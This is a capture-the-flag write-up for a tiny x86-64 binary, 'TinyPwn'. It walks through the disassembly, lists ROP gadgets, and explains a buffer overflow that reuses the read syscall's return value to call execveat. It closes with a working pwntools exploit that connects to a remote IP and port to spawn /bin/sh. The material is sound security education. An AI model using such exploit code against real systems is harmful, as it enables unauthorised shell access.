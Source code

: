 I did this problem at school, so I didn't have idea xD. You'll have to bear with objdump.

Objdumping the binary we get:

```TinyPwn:     file format elf64-x86-64


Disassembly of section .text:

00000000004000b0 <.text>:
  4000b0:       48 31 c0                xor    %rax,%rax
  4000b3:       48 31 db                xor    %rbx,%rbx
  4000b6:       48 31 c9                xor    %rcx,%rcx
  4000b9:       48 31 d2                xor    %rdx,%rdx
  4000bc:       48 31 ff                xor    %rdi,%rdi
  4000bf:       48 31 f6                xor    %rsi,%rsi
  4000c2:       4d 31 c0                xor    %r8,%r8
  4000c5:       4d 31 c9                xor    %r9,%r9
  4000c8:       4d 31 d2                xor    %r10,%r10
  4000cb:       4d 31 db                xor    %r11,%r11
  4000ce:       4d 31 e4                xor    %r12,%r12
  4000d1:       4d 31 ed                xor    %r13,%r13
  4000d4:       4d 31 f6                xor    %r14,%r14
  4000d7:       4d 31 ff                xor    %r15,%r15
  4000da:       48 31 ed                xor    %rbp,%rbp
  4000dd:       e8 10 00 00 00          callq  0x4000f2
  4000e2:       b8 3c 00 00 00          mov    $0x3c,%eax
  4000e7:       48 31 ff                xor    %rdi,%rdi
  4000ea:       48 31 f6                xor    %rsi,%rsi
  4000ed:       48 31 d2                xor    %rdx,%rdx
  4000f0:       0f 05                   syscall 
  4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
  4000f9:       48 89 e6                mov    %rsp,%rsi
  4000fc:       ba 48 01 00 00          mov    $0x148,%edx
  400101:       0f 05                   syscall 
  400103:       48 81 c4 28 01 00 00    add    $0x128,%rsp
  40010a:       c3                      retq ```

  It is a tiny binary indeed. It uses syscalls to read 0x148 bytes, then returns. Easy buffer overflow. We quickly find that the padding is 0x128 until the ret address. The problem is how do we get a shell?

  We can use ROPgadget to get a list of gadgets:

  ```Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x00000000004000ff : add byte ptr [rax], al ; syscall
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x00000000004000e9 : dec dword ptr [rax + 0x31] ; test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000fc : mov edx, 0x148 ; syscall
0x00000000004000fa : mov esi, esp ; mov edx, 0x148 ; syscall
0x00000000004000f9 : mov rsi, rsp ; mov edx, 0x148 ; syscall
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x00000000004000f0 : syscall
0x00000000004000ec : test byte ptr [rax + 0x31], 0xd2 ; syscall
0x00000000004000e8 : xor edi, edi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ee : xor edx, edx ; syscall
0x00000000004000eb : xor esi, esi ; xor rdx, rdx ; syscall
0x00000000004000e7 : xor rdi, rdi ; xor rsi, rsi ; xor rdx, rdx ; syscall
0x00000000004000ed : xor rdx, rdx ; syscall
0x00000000004000ea : xor rsi, rsi ; xor rdx, rdx ; syscall```

We don't have much at our disposal, so my idea was syscall. Looking at the list of syscalls here: ```http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/``` we see that sys_execve is 0x3b. However, we don't have a pop rax gadget! :(

To get around this, we have to realize that the read syscall sets rax to be the length of the bytes read. However it requires 0x128 bytes to reach the ret address, and 0x128 > 0x3b. So we use stub_execveat instead, with opcode 0x142. For this syscall, rsi is the pointer to the execve file name, which is conveniently our buffer. Debugging this, we also find that we need to zero our rdx, otherwise it would crash, which we have a gadget for at 0x4000ed.

Final attack plan:
1) Make our input string start with /bin/sh\x00
2) Make our input string length 0x142
3) Zero out rdx
4) Syscall and get shell

```python
from pwn import *

r = process("./TinyPwn")
r = remote("159.65.125.233", 6009)

payload = "/bin/sh\x00" + "B"*(0x148-(8*4) - 8)
payload += p64(0x00000000004000ed)
payload += p64(0x400101)
payload += "A"*(0x142-len(payload)-1)

r.sendline(payload)
r.interactive()```
